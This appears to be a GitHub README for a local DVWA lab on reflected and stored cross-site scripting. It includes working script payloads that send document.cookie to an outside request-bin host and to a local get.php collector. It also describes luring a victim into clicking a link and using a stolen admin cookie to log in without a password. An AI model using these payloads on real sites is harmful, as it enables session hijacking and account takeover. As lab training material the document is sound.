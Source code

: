 # Cross-site-Scripting_XSS
## 1. Installation
- Move the directory "dvwa" and "mywebsite" to the xampp installation directory
For example:
E: \ xampp \ htdocs \ dvwa
E: \ xampp \ htdocs \ mywebsite

- Upload the file "dvwa.sql" to: http://localhost/phpmyadmin/

## 2. Deploy and attack
### - Access url: http://localhost/dvwa/

### - XSS - Reflected
+ Identify website with XSS reflected error?
+ After determining that there are errors XSS Reflected. Send the link to the user. (The ability to seduce the victim depends on each person, assuming we can seduce the victim to click on the link)
+ Insert the script: <script> document.write ('<IMG SRC = \ "https: //en3xwxviv17aq.x.pipedream.net? Cookie =' + document.cookie + '\"> Hello </IMG>'); </script>
+ View the cookie you just got and exploit that cookie
(Go to https://requestbin.com to exploit the cookies you just grabbed)

### - XSS - Stored
+ Create 2 files: get.php (get cookie) and cookie.txt (empty to save her
+ Upload to site message will save to guestbook in database (dvwa.sql)
+ Login as customer to insert code to get admin cookie: <script> window.location = "http: //localhost/mywebsite/get.php? cookie =" + document.cookie; </script>

+ the link to the get.php file contains the code to get the cookie you just created
+ Now switch to the admin account
+ When the admin accesses, the admin will successfully self-direct and get the admin cookie
+ Use add-on on your browser to access when you know the admin cookie
+ Login as admin successfully (No need to know password)

# Note: To use cookie exploited from the victim, each browser must install the cookie tool (add-on) depending on the extendtions of each browser.
